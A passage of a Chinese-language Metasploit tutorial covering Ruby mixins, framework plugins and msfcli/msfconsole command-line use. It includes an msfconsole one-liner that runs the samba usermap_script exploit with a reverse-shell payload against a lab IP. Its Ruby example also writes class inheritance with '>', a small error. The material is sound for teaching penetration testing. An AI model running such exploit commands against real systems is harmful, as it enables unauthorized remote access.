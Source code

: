 class MyClass > MyParent
end

object = MyClass.new
object.woof() => “woof!”

================================================================

module MyMixin
     def woof
          puts “hijacked the woof method!”
     end
end

class MyBetterClass > MyClass
     include MyMixin
end
```

##### Metasploit Plugins

插件类似API一样在工作。

- They manipulate the framework as a whole
- Plugins hook into the event subsystem
- They automate specific tasks that would be tedious to do manually

Plugins only work in the msfconsole.
- Plugins can add new console commands
- They extend the overall Framework functionality

##  2 MSF 基础

###  2.1 MSFcli

msfcli 为MSF提供了一个强力的命令行接口，它允许简单的加入metasploit 渗透模块到任何你生成的脚本中。

现在使用它的方法是```-x```选项，例如：

```
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

可以使用下列方法获得帮助：
```
root@kali:~# msfcli -h
Usage: /usr/bin/msfcli<option=value> [mode]
===========================================================

    Mode           Description
    ----           -----------
    (A)dvanced     Show available advanced options for this module
    (AC)tions      Show available actions for this auxiliary module
    (C)heck        Run the check routine of the selected module
    (E)xecute      Execute the selected module
    (H)elp         You're looking at it baby!
    (I)DS Evasion  Show available ids evasion options for this module
    (O)ptions      Show available options for this module
    (P)ayloads     Show available payloads for this module
    (S)ummary      Show information about this module
    (T)argets      Show available targets for this exploit module
